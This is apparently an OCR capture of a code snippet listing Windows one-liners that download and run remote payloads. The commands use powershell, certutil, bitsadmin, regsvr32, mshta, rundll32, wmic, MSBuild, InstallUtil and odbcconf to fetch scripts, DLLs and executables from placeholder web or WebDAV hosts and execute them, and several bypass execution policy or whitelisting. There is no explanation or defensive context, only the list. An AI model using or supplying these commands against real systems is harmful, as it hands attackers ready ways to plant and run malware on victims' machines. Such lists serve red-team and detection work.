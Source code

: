 ```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://server/payload.ps1')|iex"
```

```powershell -exec bypass -f \\webdavserver\folder\payload.ps1```

```cmd.exe /k < \\webdavserver\folder\batchfile.txt```

```certutil -urlcache -split -f http://server/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe```

```certutil -urlcache -split -f http://server/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll```

```certutil -urlcache -split -f http://server/payload payload```

```cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"```

```odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}```

```bitsadmin /Transfer myJob http://server/file.b64 C:\users\username\file.b64 && certutil -decode C:\users\username\file.b64 C:\users\username\mallicious.exe && del C:\users\username\file.b64 && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\username\malicious.exe```

```regsvr32 /u /n /s /i:http://server/payload.sct scrobj.dll```

```regsvr32 /u /n /s /i:\\server\folder\payload.sct scrobj.dll```

```wmic os get /format:"https://server/payload.xsl"```

```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();```

```mshta http://webserver/payload.hta```

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))```

```mshta \\webdavserver\folder\payload.hta```

```cscript //E:jscript \\webdavserver\folder\payload.txt```
